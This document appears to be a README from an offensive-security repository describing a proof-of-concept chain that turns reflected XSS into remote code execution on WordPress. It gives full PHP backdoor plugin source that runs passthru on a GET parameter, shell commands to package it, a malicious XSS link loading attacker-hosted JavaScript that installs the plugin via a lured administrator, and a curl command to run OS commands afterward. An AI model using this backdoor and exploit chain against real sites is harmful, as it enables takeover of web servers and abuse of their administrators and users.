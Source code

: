 # [RCE] Install Plugin

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps
1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `WP_PoC.php`

    (`WP_PoC.php`)

    ```
    <?php
    /**
     * Plugin Name: WP RCE PoC - Install Plugin
     * Version: 1.0.0
     * Author: WP Admin
     * Author URI: https://localhost
     * License: GPL2
     */
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create WordPress plugin

    ```
    zip WP_PoC.zip WP_PoC.php
    ```

3. [create backdoored CMS module] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

    ```
    cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
    ```

4. [setup exploit] change payload variable values (`installPluginWP.js`)

    `pluginURL` - URL of WordPress plugin (containing backdoor) to be installed on target site

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

5. [setup exploit] setup web server (to serve the payload/plugin)

6. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

7. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/installPluginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting payload

8. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on name of installed module

9. [uninstall module] uninstall module via GUI

    *WordPress ➔ Plugins ➔ Installed Plugins ➔ [WP RCE PoC - Install Plugin] Delete ➔ OK*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 8 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e2a5fa16-2636-43f0-9761-f1c22b479263
